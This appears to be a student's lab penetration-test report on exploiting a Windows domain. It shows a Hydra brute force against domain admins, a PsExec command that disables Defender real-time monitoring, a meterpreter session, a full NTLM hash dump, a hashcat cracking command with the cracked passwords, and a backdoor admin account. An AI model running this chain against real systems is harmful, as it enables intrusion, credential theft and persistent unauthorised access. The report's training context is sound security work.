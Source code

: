 ```yaml
---
sticker: lucide//box
---
```

Now, for the exploitation stage of this report, the first step attempted was a Hydra brute force attack, utilizing the usernames of the administrators that were discovered during the enumeration stage.

the current list of admins. 
![[Pasted image 20240104230831.png| Figure 14 - List of Domain Admins]]

```plaintext
Administrator
W.Holt
L.washington
M.Padilla
I.Robinson
B.Yates
J.Shaw
```
> Plaintext of the admins. 

The brute force will take awhile to complete even if its a small password list.  i have added my own guesses to what the password could be to the password list. the passwords i have added are as follows. 

- `test234`
- `trainmen63`
- `Thisisverysecret1`
- `Thisisverysecret21`
- `Thisisverysecret22`
- `Thisisverysecret23`
- `uadcwnet21`
- `uadcwnet1`
- `uadcwnet23`
- `uadtargetnet21`

so we will move on to our next two methods of getting the password for the domain admins. if we get a domain admins password we can create a new user 

![[Pasted image 20240105014308.png| Figure 14 - Hydra bruteforce using small password dictionary]]

![[vmware_w1XGaAHVDa.png| Figure 15 - Hydra Bruteforce found 1 password]]

adding our guesses to the password list worked off. 
one of the passwords for the `Administrator` account was `Thisisverysecret21`

Now we are going to use the exploit/windows/smb/psexec exploit to try and get a reverse shell tcp. 

first we will need to disable Realtime monitoring using the PsExec tool

```powershell
# Go to Directory
cd \to\file\location

#run PsExec with cmd and powershell
.\PsExec.exe \\192.168.10.1 -u Administrator powershell

# When prompted
Password: Thisisverysecret21 

# To Disable Anti-Virus
C:\Windows\system32> Set-MpPreference -DisableRealtimeMonitoring $true
```

![[pwsh_D7R8wrCVl3.png|Figure 16 -Using PsExec Tool to Disable Windows Firewall]]

![[vmware_TQaH6FU1Sp.png| Figure 17 - Getting meterpreter shell.]]

Now that we have meterpreter shell, the first thing i am going to do is dump the user hashes to crack using cain or hashcats.

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b41c955faff3c48cf44f44496eec8ce7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                  
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ce5006f06fb238ecd9944cd8a34ff95a:::                                                 
test:1109:aad3b435b51404eeaad3b435b51404ee:c5a237b7e9d8e708d8436b6148a25fa1:::                                                  
K.Thompson:2601:aad3b435b51404eeaad3b435b51404ee:f7b2ce4dfda94a03e7e4fa03d7b16d27:::                                            
V.Nelson:2602:aad3b435b51404eeaad3b435b51404ee:332701ea01d9803272418215824383df:::                                              
L.Gill:2603:aad3b435b51404eeaad3b435b51404ee:a6bdffa3d65f01bba7e0e33e60ee342e:::                                                
N.May:2604:aad3b435b51404eeaad3b435b51404ee:4589e3d003eb8903ea5b5e28f31ded19:::                                                 
W.Holt:2605:aad3b435b51404eeaad3b435b51404ee:080693ece73589f8b9f3f78663f91808:::                                                
J.Wheeler:2606:aad3b435b51404eeaad3b435b51404ee:15a852e3c7c2ef83ad8242472ae9903a:::                                             
F.Payne:2607:aad3b435b51404eeaad3b435b51404ee:108f91cfb6b0ab98fc1beb2e68e56159:::                                               
T.Oliver:2608:aad3b435b51404eeaad3b435b51404ee:ac5b49f9a71be7feaa42a3222cd74b20:::                                              
J.Poole:2609:aad3b435b51404eeaad3b435b51404ee:810325d1a8599ecb7d0540ac206ad5ec:::                                               
N.Wells:2610:aad3b435b51404eeaad3b435b51404ee:688af8ea1b614bf680faba006ea3057c:::                                               
N.Hogan:2611:aad3b435b51404eeaad3b435b51404ee:e3629de60204c91bfc82825f22275c31:::                                               
M.Adams:2612:aad3b435b51404eeaad3b435b51404ee:bed9e94ccd79cc20365efa58b35d2c33:::
Y.Marshall:2613:aad3b435b51404eeaad3b435b51404ee:a01e9e33b68ab61a580f4bc464ee36c1:::
W.Wolfe:2614:aad3b435b51404eeaad3b435b51404ee:34ef57f8d321aea7ca89e0a24a515e2a:::
A.Kennedy:2615:aad3b435b51404eeaad3b435b51404ee:080693ece73589f8b9f3f78663f91808:::
T.Fuller:2616:aad3b435b51404eeaad3b435b51404ee:74852d706649d5d2ce8f9dd826d4874f:::
L.Washington:2617:aad3b435b51404eeaad3b435b51404ee:0833a35013de96e17705cb4694b1553c:::
S.Shelton:2618:aad3b435b51404eeaad3b435b51404ee:990e7ec7e099e75c00f443f7b4bb3ae2:::
J.Farmer:2619:aad3b435b51404eeaad3b435b51404ee:f61996a84217dad5ff64659a97c8642c:::
M.Paul:2620:aad3b435b51404eeaad3b435b51404ee:ed82bd6cdb216fd690c950aecd64c56c:::
B.Wong:2621:aad3b435b51404eeaad3b435b51404ee:faccd2f7fc03a0982b07a2d21846187f:::
D.Ford:2622:aad3b435b51404eeaad3b435b51404ee:e822570efa4b7edc5fc10f2372e070e2:::
M.Daniel:2623:aad3b435b51404eeaad3b435b51404ee:cecadc1061009aedacc80a2de584a5f5:::
D.Brooks:2624:aad3b435b51404eeaad3b435b51404ee:dd9d2279352b23687f6279ba4a8ba88c:::
B.Rice:2625:aad3b435b51404eeaad3b435b51404ee:e1489fe6f506e84e1d9f01459f07e13f:::
P.Powers:2626:aad3b435b51404eeaad3b435b51404ee:30179f5c89072aae0fcb922d52b0a3bb:::
S.Wright:2627:aad3b435b51404eeaad3b435b51404ee:2b536b199fda92e76c05b59294a0f79b:::
L.Williamson:2628:aad3b435b51404eeaad3b435b51404ee:c0dc381734bded9fbc8c454895c8ebec:::
G.Malone:2629:aad3b435b51404eeaad3b435b51404ee:33b93138451a49da98e262b2f5b57da5:::
M.Harrington:2630:aad3b435b51404eeaad3b435b51404ee:f93175934524851e0b8bed08bea60f87:::
H.Mclaughlin:2631:aad3b435b51404eeaad3b435b51404ee:e868ceb881c017f13590fd158254a371:::
G.Turner:2632:aad3b435b51404eeaad3b435b51404ee:27bde3962ffc55061dd8c736a2016b4c:::
P.Rodriquez:2633:aad3b435b51404eeaad3b435b51404ee:e58e3586585c44da480e148390d9dd99:::
L.Thornton:2634:aad3b435b51404eeaad3b435b51404ee:6c93c3cd901986843f5d0df101331210:::
D.Murray:2635:aad3b435b51404eeaad3b435b51404ee:62e4e02723ccfeee508caa92c95a6f5e:::
A.Peters:2636:aad3b435b51404eeaad3b435b51404ee:f293e283cea5a27db8552667fbaf94c7:::
M.Padilla:2637:aad3b435b51404eeaad3b435b51404ee:a022f2e4594ec7271afb6b6791d86ec2:::
J.Becker:2638:aad3b435b51404eeaad3b435b51404ee:8c064a4c674c79cec0f3c70310b9b8e2:::
K.Perkins:2639:aad3b435b51404eeaad3b435b51404ee:fb9a187494df75923c9515cfca976f08:::
M.Murphy:2640:aad3b435b51404eeaad3b435b51404ee:cdb164617b8fb8ee5bc0e3c4d0ea0a0b:::
S.Higgins:2641:aad3b435b51404eeaad3b435b51404ee:baa026ccfd2b52c325ef54b691ce8845:::
B.Lewis:2642:aad3b435b51404eeaad3b435b51404ee:4310e999dc37278d6f0f33ee0e26d475:::
F.Sanders:2643:aad3b435b51404eeaad3b435b51404ee:d44ef87a5f186e15cbfc91044bce6f6b:::
R.Soto:2644:aad3b435b51404eeaad3b435b51404ee:fd281398fdf14e4e1173a6d113975532:::
I.Robinson:2645:aad3b435b51404eeaad3b435b51404ee:f06b5ecb867ff8a976f0ddd8cc200aa2:::
B.Yates:2646:aad3b435b51404eeaad3b435b51404ee:8a8c9f7a692b8e3e6e77d47490ef55ae:::
E.Frazier:2647:aad3b435b51404eeaad3b435b51404ee:22f17fad5469c294b551e488d7971202:::
G.Francis:2648:aad3b435b51404eeaad3b435b51404ee:47e9839eb7d7d226ea5415d6737eb09c:::
J.Shaw:2649:aad3b435b51404eeaad3b435b51404ee:fe0ca6beaf5a825d6a9cca1c2e6a27e6:::
G.Adkins:2650:aad3b435b51404eeaad3b435b51404ee:78cf7711caf441a13857c2b96d3fb9b3:::
SERVER1$:1000:aad3b435b51404eeaad3b435b51404ee:c9795e253175e15d217b52ab89277e20:::
marketplace$:1110:aad3b435b51404eeaad3b435b51404ee:ebd5a56399bd03ef6a961b1b27f63489:::
pc28$:1111:aad3b435b51404eeaad3b435b51404ee:923cdcc9273474d7b0dbbbff25ac13f7:::
range86-130$:1112:aad3b435b51404eeaad3b435b51404ee:2d338324312a43afe6d41b46ce49613c:::
nt4$:1113:aad3b435b51404eeaad3b435b51404ee:bd6a7ea846767c4543346912d60f5f61:::
cust84$:1114:aad3b435b51404eeaad3b435b51404ee:d3b80b56f60c65a164d924a7fbdd4126:::
devserver$:1115:aad3b435b51404eeaad3b435b51404ee:262f6a2207a7b4eea0c312ddd25992d6:::
about$:1116:aad3b435b51404eeaad3b435b51404ee:b39bc0e10fe2ac5f9621675e1c1f3e79:::
helponline$:1117:aad3b435b51404eeaad3b435b51404ee:6f9d64cbd6f4fc435e0da245b9f25033:::
sanantonio$:1118:aad3b435b51404eeaad3b435b51404ee:8b26d71cdfe07b14c5b1e5ef703b5492:::
inbound$:1119:aad3b435b51404eeaad3b435b51404ee:3890bff01d0a7cc2da5f6ab2247573e7:::
customer$:1120:aad3b435b51404eeaad3b435b51404ee:c156ac9c2e74563914130b4212bc614d:::
ir$:1121:aad3b435b51404eeaad3b435b51404ee:51948713094207d98c84315633eeb861:::
announce$:1122:aad3b435b51404eeaad3b435b51404ee:db366f00216407c93042a43a04fd7a32:::
iris$:1123:aad3b435b51404eeaad3b435b51404ee:82e1b93b43b99d7060869e02737f175c:::
dev1$:1124:aad3b435b51404eeaad3b435b51404ee:1dde0903bdb7f24cb768a5880350d586:::
cust24$:1125:aad3b435b51404eeaad3b435b51404ee:103c4dca7e48c70a63633d815740564b:::
mx$:1126:aad3b435b51404eeaad3b435b51404ee:ed3486283181589c931a0bcde049aa3e:::
vader$:1127:aad3b435b51404eeaad3b435b51404ee:c300680e0d4bd889dcb0e4f4ab9c1652:::
cust53$:1128:aad3b435b51404eeaad3b435b51404ee:98d9ac348638b04fb3360e960b0a51c7:::
mv$:1129:aad3b435b51404eeaad3b435b51404ee:4a100cd5986927beea5207314dcc6136:::
mickey$:1130:aad3b435b51404eeaad3b435b51404ee:40c859ccba75ac01204c635eff7b025a:::
ptld$:1131:aad3b435b51404eeaad3b435b51404ee:36bdc6a8cab46f1ddce9f870f510aacd:::
tool$:1132:aad3b435b51404eeaad3b435b51404ee:0f0e148c7f8946e3df14e5e39b2f1f5c:::
uninet$:1133:aad3b435b51404eeaad3b435b51404ee:77620392fabbdf3606bc53545c788945:::
houstin$:1134:aad3b435b51404eeaad3b435b51404ee:6902b491549f7a20d6a43be1cdebbcc5:::
SERVER2$:1135:aad3b435b51404eeaad3b435b51404ee:d03ab1507fec8e4d31b48093701f7676:::
CLIENT1$:1601:aad3b435b51404eeaad3b435b51404ee:4c8e8d1b34a7b41c614d0a236cbfc35a:::
MSSQL1$:2671:aad3b435b51404eeaad3b435b51404ee:06023faacb85106a25f46640cdb2ccc1:::
MSSQL2$:2672:aad3b435b51404eeaad3b435b51404ee:f5309aa09dc849d980f13ec0a2dc69e1:::
MSSQL3$:2673:aad3b435b51404eeaad3b435b51404ee:6a1235796e0a1ed7414b9b69f1676fed:::
MSSQL4$:2674:aad3b435b51404eeaad3b435b51404ee:bce645bb12f156b771c9dcf10ec06a9e:::
MSSQL5$:2675:aad3b435b51404eeaad3b435b51404ee:af287542252c28f65b964324426b64ea:::
MSSQL6$:2676:aad3b435b51404eeaad3b435b51404ee:1861061b88270d755c1fb7da17f4e0e6:::
MSSQL7$:2677:aad3b435b51404eeaad3b435b51404ee:e922052e0851386c699ebae46a6ac541:::
MSSQL8$:2678:aad3b435b51404eeaad3b435b51404ee:ff39c2ef67a0310c27d10d5f5469f6cf:::
MSSQL9$:2679:aad3b435b51404eeaad3b435b51404ee:b0089409ab00d148e7a941a04dbe6f17:::
MSSQL10$:2680:aad3b435b51404eeaad3b435b51404ee:74e6a8757990e8053d8bcc7a2a6b3a79:::
```

```powershell
.\hashcat.exe -d 1 -m 1000 -a 0 .\server1-hashdump.txt .\rockyou.txt
```
> I ran the following to crack as many passwords as i could. using the rockyou password dict

Passwords cracked using rockyou.txt
1. **K.Thompson**: The password for this user is 'Dolores'.
2. **test**: The password for this user is 'test123'.
3. **W.Holt**: The password for this user is 'interception'.
4. **Guest**: This user has no password set (blank).
5. **F.Payne**: The password for this user is 'morphine18'.

passwords cracked using cain.txt
1. **S.Higgins**: The password for this user is 'acquitting'.
2. **J.Shaw**: The password for this user is 'hostelry'.
3. **G.Adkins**: The password for this user is 'howsomever'.
4. **J.Becker**: The password for this user is 'inopportune'.
5. **G.Malone**: The password for this user is 'petroglyph'.
6. **L.Thornton**: The password for this user is 'physiochemical'.
7. **D.Murray**: The password for this user is 'unidirectional'.

![[Pasted image 20240105030716.png| Figure 18 - cracked hashes with rockyou]]

![[Pasted image 20240105030854.png| Figure 19 - Cracked hashes with cain.txt]]

now thats done i am going to add a user account and set it as admin to maintain access, i will be using a PowerShell script to accomplish this and uploading and deploying the script using meterpreter shell

![[Pasted image 20240105031818.png| Figure 20 - PowerShell script to create Admin account on server one]]

![[Pasted image 20240105032532.png| Figure 21 - deploying powershell script.]]

![[Pasted image 20240105032752.png| Figure 22 - confirming account was created.]]
